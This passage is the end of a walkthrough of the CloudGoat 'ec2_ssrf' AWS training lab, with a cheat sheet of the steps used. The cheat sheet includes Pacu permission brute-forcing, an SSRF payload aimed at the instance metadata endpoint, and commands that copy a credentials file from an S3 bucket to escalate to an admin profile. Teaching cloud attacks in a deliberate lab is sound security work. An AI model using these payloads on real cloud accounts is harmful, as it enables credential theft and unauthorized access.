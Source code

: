 Use those keys to configure a new profile, same commands as before. 

```bash
aws configure --profile admin
#Pass in the key from earlier
aws sts get-caller-identity --profile admin
```

That should verify your keys work. From the course cheat sheet, we have a template for invoking the lambda. So run

```bash
aws lambda invoke --function-name cg-lambda-cgidnr0hwro0sg output.json --profile admin
```

Your function name should be from whatever you found earlier (likely different from mine). And with that, you'll have a file saved in your working directory. `cat output.json` and you win! 

*Don't forget to run `cloudgot destroy ec2_ssrf` after you finish so you don't end up getting charged for leaving machines on!*

# Closing Thoughts

This was a really entertaining lab scenario. First we needed to find what the lambda function was and look into the environment variables to get some keys. Then we had to enumerate that account to find a hidden webserver. Then we launched an SSRF attack to grab the keys & token for another role. Then use that to enumerate an S3 bucket to grab a final pair of credentials. And close it off by running that lambda function we found at the start. A full circle. I learned a lot from doing this lab, and hopefully this walkthrough helped get over whatever issues you faced. 

# Cheat Sheet

To close off, here's a quick summary of the key commands we needed to run to complete this module (not all, just the ones I would refer back to).

```bash
#Start Up & self enumeration
cloudgoat create ec2_ssrf
aws sts get-caller-identity --profile solus
aws lambda list-functions --region us-east-1 --profile solus

#EC2 Enumeration
pacu
run iam__enum_permissions
run iam__bruteforce_permissions
run ec2__enum
exit 
aws ec2 describe-security-groups --region us-east-1 --profile solus_cred

#SSRF Target
http://3.228.5.64?url=http://169.254.169.254/latest/meta-data/cg-ec2-role-cgidnr0hwro0sg

#Enumerate again
#Same commands as previus enumeration (no need for security groups though)

#S3 Bucket Attack
aws s3 ls --profile ec2_ssrf
aws s3 ls s3://cg-secret-s3-bucket-cgidnr0hwro0sg --profile ec2_ssrf
aws s3 ls s3://cg-secret-s3-bucket-cgidnr0hwro0sg/aws/ --profile ec2_ssrf
aws s3 cp s3://cg-secret-s3-bucket-cgidnr0hwro0sg/aws/credentials . --profile ec2_ssrf

#Lambda Invocation
aws lambda invoke --function-name cg-lambda-cgidnr0hwro0sg output.json --profile admin
```
